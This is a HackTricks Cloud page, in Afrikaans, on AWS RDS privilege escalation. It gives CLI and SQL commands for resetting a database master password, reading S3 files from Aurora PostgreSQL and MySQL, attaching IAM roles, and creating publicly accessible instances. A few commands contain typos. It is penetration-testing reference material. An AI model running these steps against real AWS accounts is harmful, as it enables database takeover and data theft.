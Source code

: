 # AWS - RDS Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Relational Database Service

Vir meer inligting oor RDS, kyk:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Met daardie toestemming kan 'n aanvaller **die wagwoord van die meester gebruiker verander**, en die aanmelding binne die databasis:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Jy sal in staat moet wees om die **databasis te kontak** (hulle is gewoonlik net vanaf binne-netwerke toeganklik).
{% endhint %}

**Potensiële Impak:** Vind sensitiewe inligting binne die databasisse.

### rds-db:connect

Volgens die [**dokumentasie**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) kan 'n gebruiker met hierdie toestemming aan die DB-instantie koppel.

### Misbruik RDS Rol IAM toestemmings

#### Postgresql (Aurora)

{% hint style="success" %}
As jy **`SELECT datname FROM pg_database;`** uitvoer en 'n databasis met die naam **`rdsadmin`** vind, weet jy jy is binne 'n **AWS postgresql databasis**.
{% endhint %}

Eerstens kan jy kyk of hierdie databasis gebruik is om toegang tot enige ander AWS-diens te verkry. Jy kan dit nagaan deur na die geïnstalleerde uitbreidings te kyk:
```sql
SELECT * FROM pg_extension;
```
As jy iets soos **`aws_s3`** vind, kan jy aanneem dat hierdie databasis **'n soort toegang oor S3** het (daar is ander uitbreidings soos **`aws_ml`** en **`aws_lambda`**).

As jy ook toestemmings het om **`aws rds describe-db-clusters`** uit te voer, kan jy daar sien of die **kluster enige IAM Rol aangeheg het** in die veld **`AssociatedRoles`**. As daar enige is, kan jy aanneem dat die databasis **voorberei was om toegang tot ander AWS dienste** te hê. Gebaseer op die **naam van die rol** (of as jy die **toestemmings** van die rol kan kry) kan jy **raai** watter ekstra toegang die databasis het.

Nou, om **'n lêer binne 'n emmer** te lees, moet jy die volle pad weet. Jy kan dit lees met:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
As jy **raw AWS credentials** gehad het, kon jy dit ook gebruik om toegang tot S3-data te verkry met:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **hoef nie enige parameter groep veranderlike te verander** om toegang tot S3 te verkry nie.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Binne 'n mysql, as jy die navraag **`SELECT User, Host FROM mysql.user;`** uitvoer en daar is 'n gebruiker genaamd **`rdsadmin`**, kan jy aanneem jy is binne 'n **AWS RDS mysql db**.
{% endhint %}

Binne die mysql voer **`show variables;`** uit en as die veranderlikes soos **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, waardes het, kan jy aanneem die databasis is voorberei om toegang tot S3 data te verkry.

Ook, as jy toestemmings het om **`aws rds describe-db-clusters`** uit te voer, kan jy nagaan of die kluster enige **geassosieerde rol** het, wat gewoonlik toegang tot AWS dienste beteken).

Nou, om **'n lêer binne 'n emmer** te lees, moet jy die volle pad weet. Jy kan dit lees met:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

'n Aanvaller met die toestemmings `rds:AddRoleToDBCluster` en `iam:PassRole` kan **'n gespesifiseerde rol aan 'n bestaande RDS-instansie voeg**. Dit kan die aanvaller in staat stel om **toegang tot sensitiewe data** te verkry of die data binne die instansie te wysig.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potensiële Impak**: Toegang tot sensitiewe data of ongeoorloofde wysigings aan die data in die RDS-instantie.\
Let daarop dat sommige DB's addisionele konfigurasies vereis soos Mysql, wat die rol ARN in die parameter groepe moet spesifiseer.

### `rds:CreateDBInstance`

Net met hierdie toestemming kan 'n aanvaller 'n **nuwe instantie binne 'n kluster** wat reeds bestaan en 'n **IAM rol** aangeheg het, skep. Hy sal nie in staat wees om die meester gebruikerswagwoord te verander nie, maar hy mag in staat wees om die nuwe databasisinstantie aan die internet bloot te stel:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Toets
{% endhint %}

'n Aanvaller met die toestemmings `rds:CreateDBInstance` en `iam:PassRole` kan **'n nuwe RDS-instansie met 'n spesifieke rol aangeheg skep**. Die aanvaller kan dan moontlik **toegang tot sensitiewe data** verkry of die data binne die instansie wysig.

{% hint style="warning" %}
Sommige vereistes van die rol/instansie-profiel om aan te heg (van [**hier**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Die profiel moet in jou rekening bestaan.
* Die profiel moet 'n IAM-rol hê wat Amazon EC2 toestemming het om aan te neem.
* Die instansie-profielnaam en die geassosieerde IAM-rolnaam moet begin met die voorvoegsel `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potensiële Impak**: Toegang tot sensitiewe data of ongeoorloofde wysigings aan die data in die RDS-instantie.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

'n Aanvaller met die toestemmings `rds:AddRoleToDBInstance` en `iam:PassRole` kan **'n gespesifiseerde rol aan 'n bestaande RDS-instantie voeg**. Dit kan die aanvaller in staat stel om **toegang tot sensitiewe data** te verkry of die data binne die instantie te wysig.

{% hint style="warning" %}
Die DB-instantie moet buite 'n kluster wees vir dit
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potensiële Impak**: Toegang tot sensitiewe data of ongeoorloofde wysigings aan die data in die RDS-instantie.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
